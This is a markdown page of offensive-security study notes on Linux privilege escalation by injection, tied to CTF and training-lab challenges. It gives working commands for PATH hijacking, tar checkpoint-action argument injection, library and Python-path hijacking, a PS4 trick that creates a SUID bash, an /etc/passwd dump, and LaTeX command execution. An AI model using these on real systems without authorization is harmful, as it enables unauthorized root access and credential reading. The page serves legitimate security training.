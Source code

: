 # Injection

<div class="row row-cols-lg-2"><div>

If there is some code that can is executed as another user, for instance, a [scheduled task](../topics/tasks.md) or a [program with the SUID bit](../topics/perms.md#suidguid-bit), you may be able to modify the code behavior using injection.

➡️ You may need/want to create a [root bash](rootbash.md).
</div><div>

There are basic scenarios in which you can directly exploit the executable, but in other scenarios, you may have to exploit the environment itself. In short, it means you may:

* 🌸 edit the environment variables
* 🌿 edit the files used by the program
* 🎭 create a file named after the parameters of the command. For instance, if the code uses a glob-pattern, the pattern will be replaced with the matching files. So, you may inject parameters.
* 🐦 use a flaw in the script language
* ...
</div></div>

<hr class="sep-both">

## Path Environment variable 🌸

[![linprivesc](../../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![commonlinuxprivesc](../../../../_badges/thmp/commonlinuxprivesc.svg)](https://tryhackme.com/room/commonlinuxprivesc)
[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![mustacchio](../../../../_badges/thm-p/mustacchio.svg)](https://tryhackme.com/room/mustacchio)
[![archangel](../../../../../cybersecurity/_badges/thm-p/archangel.svg)](https://tryhackme.com/r/room/archangel)
[![bash_system_1](../../../../_badges/rootme/app_script/bash_system_1.svg)](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-1)
[![bash_system_2](../../../../_badges/rootme/app_script/bash_system_2.svg)](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-2)

<div class="row row-cols-lg-2"><div>

If you can run a script, you may try to see if the script uses your PATH to work. The easiest way to test that is to empty your PATH.

```shell!
$ bash -c 'export PATH=; <execute the script>'
"xxx" command not found ====> OK!
```

You can then try to replace the command binary by a [rootbash](rootbash.md). 

```
$ ls /tmp/rootbash # assuming you created your rootbash
$ ln -s /tmp/rootbash # replace the command "xxx"
$ bash -c 'export PATH=/tmp:$PATH; <execute the script>'
<your bash is called>
```

⚠️ If you are not able to edit the PATH, try to see if you can write files in a folder in the PATH that is before the original folder.
</div><div>

Unfortunately, this doesn't work when the command is invoked with some options, such as `tail -f /var/log/nginx/access.log`.

The trick is to create a script that launches our command. Refer to [Root Bash Script](rootbash.md).

```shell!
$ ln -s /tmp/root.sh /tmp/xxx # your command
$ bash -c 'export PATH=/tmp:$PATH; <execute the script>'
<your bash is called>
```
</div></div>

<hr class="sep-both">

## Parameters injection  🎭

[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![linuxstrengthtraining](../../../../_badges/thm/linuxstrengthtraining.svg)](https://tryhackme.com/room/linuxstrengthtraining)
[![ultra_upload](../../../../_badges/rootme/realist/ultra_upload.svg)](https://www.root-me.org/en/Challenges/Cracking/Godot-Mono)

<div class="row row-cols-lg-2"><div>

We can inject arguments when [glob-patterns](/operating-systems/linux/_knowledge/index.md#glob-patterns) are replaced, e.g., by creating file named after the command arguments.

To execute any command manipulating a filename starting with `-`, you need to use `--` such as `rm -- -la` to remove the file `-la`.

For instance, to inject `-la` into `ls *`:

```shell!
$ touch -- -la
$ ls
-la
$ ls * # * was replaced by -la
total 8
drwxr-xr-x 2 xxx xxx 4096 Apr 29 18:50 .
drwxr-xr-x 9 xxx xxx 4096 Apr 29 18:50 ..
-rw-r--r-- 1 xxx xxx    0 Apr 29 18:50 -la
```
</div><div>

While the `--` trick is handy, it may not always work. You can alternatively use the relative path:

```shell!
$ touch './--checkpoint=1'
$ touch './--checkpoint-action=exec="id > id.txt"'
$ touch './--checkpoint-action=exec=id > id.txt'
$ touch './--checkpoint-action=exec=bash script.sh'
```

If you can read files only in a specific folder or having a specific name, you can try using symbolic links:

```ps
$ ln -s /path/to/juicy/file /tmp/script/res/file
```
</div></div>

<hr class="sep-both">

## Library Hijacking

[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![shared_objects_hijacking](../../../../_badges/rootme/app_script/shared_objects_hijacking.svg)](https://www.root-me.org/en/Challenges/App-Script/Shared-Objects-hijacking)

<div class="row row-cols-lg-2"><div>

Shared Object Hijacking or Linker Hijacking is a technique in which we load a malicious `.so` file when executing a potentially misconfigured binary such as `ls` in a potentially misconfigured environment.

A environment is misconfigured when we have write access to a folder defined in `/etc/ld.so.conf`. Such folders are checked in order when looking for a `.so`. It includes standard folders such as `/lib` or `/usr/lib` and may include non-standard writable paths.

If we find a suspicious binary, we can examine it:

```ps
$ ldd <binary>
$ readelf -d <binary>
```

If the binary has the `RUNPATH` folder set and it points to a file/folder we can write to, then we can load our `.so`.
</div><div>

To write a static binary (`.so`), [refer to rootbash#static binary](../utils/rootbash.md#root-bash-static-library) section.

Misconfigured Python installations may also be vulnerable if we are able to write python scripts in the module path.

```shell!
$ python3 -c 'import sys; print("\n".join(sys.path))'
$ touch xxx.py ; PYTHONPATH=`pwd` python -c 'import xxx'
```

Check every imported package using `pip3 show <package>`. If the package is imported from a location that is below a folder in which you can write to, then you can inject your own code.
</div></div>

<hr class="sep-both">

## Bash scripts failures 🐦

<div class="row row-cols-lg-2"><div>

**Bash versions <4.2-048**: it is possible to create functions named after a path, which allows us to execute a command instead. If the path is accessed by a script, then using `-p`, we can create a bash while inheriting the permissions of its creator.

```bash!
function /some/path { /bin/bash -p; }
export -f /some/path
```
</div><div>

**Bash <4.4**: if debug is enabled, we can inject code in the environment variable PS4 used by bash. If the script has the SUID bit, then using this, we could create a bash with the SUID bit too.

```shell!
$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/; chmod +xs /tmp/bash)' ./script
```
</div></div>

<hr class="sep-both">

## Special scenarios 📚

<div class="row row-cols-lg-2"><div>

As a reminder, if you can execute commands, then refer to [command injection](/cybersecurity/red-team/s3.exploitation/vulns/injection/command.md) for additional related content. Refer also to: [format strings](/cybersecurity/red-team/s3.exploitation/vulns/memory/format_strings.md).

<br>

#### Python input() function

[![python_input](../../../../_badges/rootme/app_script/python_input.svg)](https://www.root-me.org/en/Challenges/App-Script/Python-input)

This command is used to prompt the user for input. The problem is that we can write python code <small>(e.g., 5+5)</small>.

```py
open('/tmp/passwd_dump', 'w').write(open('/etc/passwd', 'r').read())
```

<br>

#### Latex directives

[![latex_input](../../../../_badges/rootme/app_script/latex_input.svg)](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Input)
[![latex_command_execution](../../../../_badges/rootme/app_script/latex_command_execution.svg)](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Command-execution)

If we can compile LaTeX, we may be able to

* Execute commands (`\immediate\write18{xxx > buffer}`, `\verbatiminput{buffer}` or using `xxx 1>&2`).
* Read non-LaTeX files using `\input{path_to_file}` or using `\usepackage{verbatim} \verbatiminput{myfile.txt}` (comments)
</div><div>

#### Bash Script Arguments

[![bash_unquoted](../../../../_badges/rootme/app_script/bash_unquoted.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-unquoted-expression-injection)

If the script uses the argument without quoting them nor validating them, we may be able to inject parameters.

```
$ cat xxx.sh
ls $1
$ ./xxx.sh "-la ."
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [axcheron format strings](https://axcheron.github.io/exploit-101-format-strings/)
</div><div>
</div></div>